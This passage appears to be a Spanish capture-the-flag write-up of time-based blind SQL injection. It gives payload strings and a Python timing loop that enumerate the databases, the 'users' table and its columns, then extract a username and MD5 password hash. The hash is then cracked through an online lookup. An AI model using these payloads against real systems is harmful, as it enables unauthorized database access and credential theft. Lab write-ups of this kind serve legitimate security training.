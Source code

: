 ```python
			final = time.time()
			if final - inicio > 2:
				resultado += letra
				print(resultado)
				break
	resultado += ", "
```
Las bases de datos son "information_schema" y "admin".

---------------------

## Las tablas de "admin"

Repetimos el script anterior, solo que cambia la inyección
```
sqli = "' and if(substr((select table_name from information_schema.tables where table_schema ='admin' limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"

## admin' and if(substr((select table_name from information_schema.tables where table_schema ='admin' limit 1,1),1,1)="a", sleep(2),1)-- -
```
La única tabla que encontramos es users

----------------------
## Las columnas de "users"

Al igual que con las tablas, solo hace falta cambiar la query

```console
sqli = "' and if(substr((select column_name from information_schema.columns where table_schema='admin' and table_name='users' limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"

# sqli = "' and if(substr((select column_name from information_schema.columns where table_schema='admin' and table_name='users' limit 1,1),1,1)='a',sleep(2),1)-- -"
```
Las columnas son "id, username, password"

-------------------
## Las creds

La nueva query
```
sqli = "' and if(substr((select group_concat(username,0x3a,password) from users limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(1),1)-- -" 

# admin' and if(substr((select group_concat(username,0x3a,password) from users limit 1,1),1,1)='a',sleep(1),1)-- -
```
Las creds son: admin:4f5fffa7b2340178a716e3832451e058 El problema esque ni con crackstation lo podemos romper...   
Antes vamos a ver que tipo de hash es ```hashid "4f5fffa7b2340178a716e3832451e058" -> MD5```  
Pero si en esta [web](https://www.md5online.org/md5-decrypt.html) ```1327663704```  
